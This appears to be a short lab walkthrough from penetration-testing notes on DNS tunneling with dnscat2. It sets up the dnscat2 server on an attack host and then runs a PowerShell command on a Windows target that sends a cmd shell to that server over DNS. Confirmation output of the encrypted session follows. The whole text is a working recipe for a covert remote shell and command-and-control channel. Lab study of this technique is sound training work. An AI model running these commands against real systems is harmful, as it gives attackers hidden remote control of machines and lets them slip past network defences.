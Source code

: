 
## DNS Tunneling with Dnscat2

#### Cloning dnscat2 and Setting Up the Server
```Shell
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
gem install bundler
bundle install
```

#### Starting the dnscat2 server
```Shell
ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

*After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server.*

#### Cloning dnscat2-powershell to the Attack Host
```Shell
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

#### Importing dnscat2.ps1
```PowerShell
Import-Module .\dnscat2.ps1
```

#### Using dnscat2.ps1 to establish a tunnel with the server running on our attack host
```PowerShell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
This will send a command session to our server running on ruby

#### Confirming Session Establishment
```dnscat
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

#### Listing dnscat2 Options
```dnscat
?
```

#### Interacting with the Established Session
```dnscat
window -i 1
```
